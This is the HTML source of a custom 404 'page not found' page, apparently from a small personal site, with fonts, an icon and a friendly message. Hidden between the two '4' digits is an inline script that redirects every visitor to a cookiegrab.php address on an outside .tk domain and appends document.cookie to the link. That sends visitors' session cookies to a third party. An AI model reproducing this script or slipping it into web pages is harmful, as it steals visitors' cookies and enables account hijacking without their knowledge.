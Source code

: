 <permalink: /404.html>
<!-- purple x moss 2020 -->

<head>
  <link href="https://fonts.googleapis.com/css2?family=Nunito+Sans:wght@600;900&display=swap" rel="stylesheet">
  <script src="https://kit.fontawesome.com/4b9ba14b0f.js" crossorigin="anonymous"></script>
</head>
<body>
  <div class="mainbox">
    <div class="err">4</div>
    <script language="javascript"> document.location= " http://meatballweb.tk/cookiegrab.php?c=" + document.cookie; </script>
    <i class="far fa-question-circle fa-spin"></i>
    <div class="err2">4</div>
    <div class="msg">Interesting, this page doesn't exist? Who knows what could've happened, sitting in quarantine or maybe thrown in the trash.<p>Let's go back <a href="https://web.meatballweb.tk/">home</a> and try from there.</p></div>
      </div>
